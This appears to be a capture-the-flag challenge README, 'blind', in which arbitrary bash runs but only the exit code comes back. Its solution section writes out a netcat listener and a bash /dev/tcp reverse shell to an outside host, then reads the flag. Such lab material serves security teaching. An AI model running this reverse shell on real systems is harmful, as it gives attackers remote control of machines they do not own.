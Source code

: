 # blind

`nc <ip here> 3424`

## Setup

1. `docker build -t blind .`
2. `docker run --rm -it -p 3424:3424 --read-only blind`

## Brief Dev Description

A script which will execute arbitrary bash but it'll only tell you the exit code.  Basically it's do you know that netcat exists (and bash /dev/tcp since netcat isn't installed on the server): the challenge.  

## Solution

1. make a netcat listener for your future reverse shell `nc -lvp 4444`
2. run `/bin/bash -i > /dev/tcp/<internet accessible ip>/4444 0<&1 2>&1`
3. run `cat flag.txt`